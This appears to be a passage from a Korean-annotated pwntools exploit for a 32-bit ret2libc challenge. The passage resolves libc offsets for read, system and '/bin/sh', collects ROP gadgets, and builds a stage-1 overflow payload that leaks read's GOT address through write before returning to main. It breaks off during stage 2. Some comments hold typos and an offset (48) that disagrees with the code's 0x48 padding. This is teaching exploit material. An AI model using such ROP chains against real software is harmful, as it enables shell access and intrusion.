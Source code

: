 ``` python

'''
read_offset = libc.symbols["read"]
: libc.so.6 안에 정의된 read() 함수의 오프셋(상대 주소).
: libc는 메모리에 로드될 때 base 주소가 랜덤이지만, base + offset = 실제 주소 가 성립함.
: 따라서 leak한 read 주소에서 base를 구할 수 있음:
: libc_base = leaked_read - read_offset

system_offset = libc.symbols["system"]
: libc 안의 system() 함수 오프셋. 
: system("/bin/sh") 실행을 위해 필요
: 나중에:
: system_addr = libc_base + system_offset

sh_offset = list(libc.search(b"/bin/sh"))[0]
: libc 메모리 안에서 "/bin/sh" 문자열을 찾음.
: libc.search(b"/bin/sh") → 제너레이터 반환 (주소 후보들).
: list(...)[0] → 첫 번째 /bin/sh 문자열의 오프셋.
: 최종 실제 주소는:
: binsh_addr = libc_base + sh_offset
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# Stage 1
'''
1. C소스에서 buf는 [ebp-0x44]의 위치에 있다. 해서 0x44 + 0x04(SFP) = 48
2. 스택의 다음 주소인 리턴주소를 wreit@ple로 설정
3. pop3_ret 가젯이 실행되면서 스택 값들이 레지스터/스택으로 들어감.
   결과적으로:
   fd = 1 (stdout)
   buf = read_got (GOT 에 적힌 read 실제 libc 주소)
   size = 4(4바이트만 출력)
   즉, write(1, read_got, 4) 실행 -> read 실제 주소 leak
4. write() 호출이 끝나면 main() 으로 복귀
   프로그램이 초기 상태로 리셋 -> 두 번째 공격 가능
'''
payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)
payload += p32(main)

'''
c 소스의 read(0, buf, 0x400); 코드에서 send로 보내는 payload를 buf에 저장함

출력시점 (write 호출)
write(1, buf, 64) 에 의해 buf의 64바이트만 출력됨.
즉, 우리가 넣은 "A"*0x40까지만 출력되고, 그 뒤에 있는 "A"*8 은 출력되지 않음.
'''
p.send(payload)
p.recvuntil(b'A' * 0x40)

# Calculate libe_base
'''
그 다음 동작
1. ret -> write@ple 실행 됨. (ROP 체인으로 넘어감.)
2. ROP 체인에 따라 
```